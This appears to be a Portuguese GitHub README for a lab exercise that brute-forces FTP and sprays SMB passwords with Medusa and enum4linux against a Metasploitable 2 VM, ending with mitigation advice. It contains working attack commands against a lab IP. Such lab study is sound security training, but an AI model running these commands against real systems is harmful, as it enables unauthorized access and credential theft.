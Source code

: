 # 🔐 Projeto: Testes de Força Bruta com Medusa no Kali Linux

## 📌 Descrição
Este projeto demonstra a execução de ataques de **força bruta** utilizando a ferramenta **Medusa** em um ambiente controlado com **Kali Linux** e **Metasploitable 2**. O objetivo é compreender como esses ataques funcionam, documentar os processos e propor medidas de mitigação para fortalecer a segurança.

---

## 🛠️ Ambiente Utilizado
- **VirtualBox** com duas VMs:
  - **Kali Linux** (atacante)
  - **Metasploitable 2** (alvo)
- Rede: **Host-Only**
- Ferramentas:
  - Medusa
  - Enum4linux
  - DVWA (para testes web)

---

## ✅ Cenários Testados
1. **Ataque de Força Bruta em FTP**
   ```bash
   medusa -h 192.168.56.101 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ftp

2. **Automação em Formulário Web (DVWA)**

  Teste de login com Medusa ou Hydra.

4. **Password Spraying em SMB com Enumeração**
  ```bash
  enum4linux -a 192.168.56.101
  medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M smbnt
  ```


🔍 Resultados

Foram obtidas credenciais válidas em serviços vulneráveis.
Prints das execuções estão disponíveis na pasta /images.


🛡️ Recomendações de Mitigação

Implementar políticas de senha forte.
Configurar bloqueio após tentativas falhas.
Utilizar autenticação multifator (MFA).
Monitorar logs e alertas de tentativas suspeitas.
